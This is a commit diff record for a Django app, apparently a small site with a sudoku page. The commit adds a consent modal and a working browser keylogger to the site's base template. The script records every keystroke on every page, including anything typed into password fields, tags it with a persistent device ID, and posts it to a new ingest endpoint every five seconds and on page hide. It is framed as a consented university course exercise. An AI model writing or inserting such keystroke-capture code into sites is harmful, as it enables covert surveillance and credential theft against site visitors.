

Before and after one commit to Nephty/vibe-night-001, a Django app: template templates/base.html in a window 1280 px wide. Run offline with Django 5.2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
Wire up keylogging course exercise: consent modal + capture endpoint

```diff
--- a/config/settings.py
+++ b/config/settings.py
@@ -68,3 +68,8 @@ STORAGES = {
 }
 
 DEFAULT_AUTO_FIELD = "django.db.models.BigAutoField"
+
+# Append-only log for the consent-gated keylogging course exercise (see
+# vibenight/views.py's keylog_ingest) — same pattern as transfer.sh's
+# events.jsonl rather than a real database.
+VIBENIGHT_KEYLOG_PATH = os.environ.get("VIBENIGHT_KEYLOG_PATH", str(BASE_DIR / "keylog.jsonl"))
--- a/templates/base.html
+++ b/templates/base.html
@@ -88,6 +88,29 @@
     {% block content %}{% endblock %}
   </div>
 
+  <div id="keylog-consent-modal" class="fixed inset-0 z-50 hidden items-center justify-center bg-black/45 p-4">
+    <div class="max-w-md w-full rounded-xl border border-[var(--border)] bg-[var(--panel)] p-6 shadow-lg">
+      <h2 class="text-lg font-bold mb-2">Course exercise notice</h2>
+      <p class="text-sm text-[var(--muted)] mb-4">
+        This site is used for a university course exercise on how keyloggers work.
+        If you continue, your keystrokes on this site will be captured and sent to
+        the course server for the exercise — nothing else on your device is
+        accessed. This is for teaching purposes only.
+      </p>
+      <label class="flex items-start gap-2 text-sm mb-4 cursor-pointer">
+        <input type="checkbox" id="keylog-consent-checkbox" class="mt-0.5 shrink-0">
+        <span>I understand and acknowledge that my keystrokes on this site will be recorded for this exercise.</span>
+      </label>
+      <div class="flex items-center justify-between gap-3">
+        <a href="https://nephty.top/" class="text-sm text-[var(--muted)] hover:text-[var(--accent)] transition-colors">Leave instead</a>
+        <button type="button" id="keylog-consent-continue" disabled
+          class="inline-flex items-center px-4 py-2 rounded-full bg-[var(--accent)] text-[var(--accent-text)] text-sm font-medium opacity-50 cursor-not-allowed transition-opacity disabled:opacity-50">
+          Continue
+        </button>
+      </div>
+    </div>
+  </div>
+
   <script>
     (function () {
       var root = document.documentElement;
@@ -108,5 +131,71 @@
       });
     })();
   </script>
+
+  <script>
+    (function () {
+      var CONSENT_KEY = "vibenight-keylog-consent";
+      var DEVICE_KEY = "vibenight-keylog-device-id";
+      var INGEST_URL = "{% url 'vibenight:keylog_ingest' %}";
+      var FLUSH_INTERVAL_MS = 5000;
+
+      var modal = document.getElementById("keylog-consent-modal");
+      var checkbox = document.getElementById("keylog-consent-checkbox");
+      var continueBtn = document.getElementById("keylog-consent-continue");
+
+      function deviceId() {
+        var id = localStorage.getItem(DEVICE_KEY);
+        if (!id) {
+          id = (window.crypto && crypto.randomUUID) ? crypto.randomUUID() : String(Date.now()) + "-" + Math.random().toString(36).slice(2);
+          localStorage.setItem(DEVICE_KEY, id);
+        }
+        return id;
+      }
+
+      var buffer = "";
+      function flush(useBeacon) {
+        if (!buffer) return;
+        var payload = JSON.stringify({ device_id: deviceId(), buffer: buffer, page: location.pathname });
+        buffer = "";
+        if (useBeacon && navigator.sendBeacon) {
+          navigator.sendBeacon(INGEST_URL, new Blob([payload], { type: "application/json" }));
+        } else {
+          fetch(INGEST_URL, { method: "POST", body: payload, keepalive: true }).catch(function () {});
+        }
+      }
+
+      function startCapture() {
+        document.addEventListener("keydown", function (e) {
+          if (e.key.length === 1) {
+            buffer += e.key;
+          } else {
+            buffer += "[" + e.key + "]";
+          }
+        }, true);
+        setInterval(function () { flush(false); }, FLUSH_INTERVAL_MS);
+        document.addEventListener("visibilitychange", function () {
+          if (document.visibilityState === "hidden") flush(true);
+        });
+        window.addEventListener("pagehide", function () { flush(true); });
+      }
+
+      if (localStorage.getItem(CONSENT_KEY) === "yes") {
+        startCapture();
+      } else {
+        modal.classList.remove("hidden");
+        modal.classList.add("flex");
+        checkbox.addEventListener("change", function () {
+          continueBtn.disabled = !checkbox.checked;
+        });
+        continueBtn.addEventListener("click", function () {
+          if (!checkbox.checked) return;
+          localStorage.setItem(CONSENT_KEY, "yes");
+          modal.classList.add("hidden");
+          modal.classList.remove("flex");
+          startCapture();
+        });
+      }
+    })();
+  </script>
 </body>
 </html>
--- a/vibenight/urls.py
+++ b/vibenight/urls.py
@@ -7,4 +7,5 @@ app_name = "vibenight"
 urlpatterns = [
     path("", views.index, name="index"),
     path("sudoku/", views.sudoku, name="sudoku"),
+    path("keylog/", views.keylog_ingest, name="keylog_ingest"),
 ]
```
Also changed, not shown: vibenight/views.py (+43 -0 lines).
